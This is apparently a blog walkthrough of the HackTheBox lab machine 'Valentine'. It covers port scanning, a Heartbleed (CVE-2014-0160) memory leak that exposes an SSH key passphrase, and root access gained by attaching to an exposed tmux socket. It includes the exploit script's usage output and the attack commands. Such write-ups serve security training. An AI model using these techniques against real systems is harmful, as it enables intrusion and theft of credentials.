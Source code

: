 ```yaml
---
title: HackTheBox - Valentine
date: 2020-12-25 20:45:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, nmap scan vuln, CVE-2014-0160, heartbleed, linpeas, tmux, writeup, oscp-prep]
image: https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/valentine.png
---
```


## Foothold

### `nmap` scan (open ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Valentine-full-port-scan.txt 10.10.10.79
Warning: 10.10.10.79 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.10.79
Host is up (0.099s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2020-12-24T14:16:15+00:00; +3m43s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache/2.2.22 (port 443)

Thanks to the [`nmap` scan](#nmap-scan-open-ports) we can identify a domain name: `valentine.htb`. Let's add it to `/etc/hosts`.

#### `dirb`

![dirb](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/dirb.png)

There is `cgi-bin` directory, is it to vulnerable to **Shellshock** ? Let's look for `.sh` file:

![sh](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/sh.png)

Nothing found. Let's check the URLs that `dirb` has highlighted.

#####  `/dev` directory

There are two files in the `/dev` directory: 

![dev](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/dev.png)

- **notes.txt**:

![notes](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/notes.png)

- **hype_key**:

![hype_key](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/hype_key.png)

###### cyberchef

Via [CyberChef](https://gchq.github.io/CyberChef/), we decoded **hype_key**:

![cyberchef](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/cyberchef.png)

Since it's an **encrypted** RSA private key (as we can see on line 2), I will not try to log in with ssh, because it will certainly ask for the private key's password.

###### XSS / PHP injection

I saw that we can inject html/javascript code in both `/encode` and `/decode` directories:

![xss](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/xss-3.png)

So I tried to inject a tiny PHP reverse shell:

![php injection](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/php-injection.png)

After multiple attempts, I was pissed off so I ran another nmap scan.

### `nmap` scan (vuln)

```bash
$ nmap -min-rate 5000 --max-retries 1 --script vuln -oN vuln-scan.txt 10.10.10.79
```

![heartbleed](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/heartbleed.png)

The web server seems vulnerable to the **Heartbleed vulnerability** that affects OpenSSL. 

![xkcd heatbleed explanation](https://https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentines.xkcd.com/comics/heartbleed_explanation.png)

> The Heartbleed bug allows anyone on the Internet to read the memory of the systems affected by the vulnerable versions of the OpenSSL software. This compromises the secret keys used to identify the service providers and to encrypt the traffic, the names and passwords of the users and the actual content. This allows attackers to eavesdrop on communications, steal data directly from the services and users and to impersonate services and users. [Source: [heartbleed.com](https://heartbleed.com/)]

We can confirm this by using `sslyze`:

![sslyze](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/sslyze.png)

In order to exploit it, we can use this [PoC script](https://gist.github.com/eelsivart/10174134).

When running the script we get an output with a lot of useless 00's:

```bash
$ python heartbleed.py 

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)
Usage: heartbleed.py server [options]

Test and exploit TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  TCP port to test (default: 443)
  -n NUM, --num=NUM     Number of times to connect/loop (default: 1)
  -s, --starttls        Issue STARTTLS command for SMTP/POP/IMAP/FTP/etc...
  -f FILEIN, --filein=FILEIN
                        Specify input file, line delimited, IPs or hostnames
                        or IP:port or hostname:port
  -v, --verbose         Enable verbose output
  -x, --hexdump         Enable hex output
  -r RAWOUTFILE, --rawoutfile=RAWOUTFILE
                        Dump the raw memory contents to a file
  -a ASCIIOUTFILE, --asciioutfile=ASCIIOUTFILE
                        Dump the ascii contents to a file
  -d, --donotdisplay    Do not display returned data on screen
  -e, --extractkey      Attempt to extract RSA Private Key, will exit when
                        found. Choosing this enables -d, do not display
                        returned data on screen.
$ python heartbleed.py $TARGET
```

![00](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/00.png)

Changing the line 116 allows us to reduce the payload size (0x40 to 0x10):

![payload length](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/payload_length.png)

We can run the script multiple times via the `-n` option. By doing so, we are able to read target's memory's content:

![secret](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/secret.png)

```bash
$ echo -n aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d
heartbleedbelievethehype
```

`heartbleedbelievethehype` is probably the passphrase of the `hype_key` we found earlier. Let's give it a try with `hype` as username _(because of the filename)_ :

![ssh](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/ssh.png)

## User (hype)

```bash
hype@Valentine:~/Desktop$ cat user.txt 
e6710a5464769fd5fcd216e076961750
hype@Valentine:~/Desktop$ 
```

This time, we do not know the password of the user so we cannot use `sudo` to check if there is a way to perform a privilege escalation.

Therefore, I will use [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to perform enumeration on the system.

> The URL [https://linpeas.sh/](https://linpeas.sh/) exists :D

There are unexpected directories in `/` that we have access:

![unexpected in root](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/linpeas-1.png)

![/.devs directory](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/devs.png)

The process below leads us to a privesc:

![strange process](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/linpeas-3.png)

```bash
hype@Valentine:/tmp$ tmux -S /.devs/dev_sess
```

## Root

![root](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/valentine/root.png)

___

## Useful links

- [CyberChef](https://gchq.github.io/CyberChef/)
- [CVE-2014-0160](http://cvedetails.com/cve/2014-0160/)
- [Heartbleed](https://heartbleed.com/)
- [Heartbleed exploit PoC](https://gist.github.com/eelsivart/10174134)
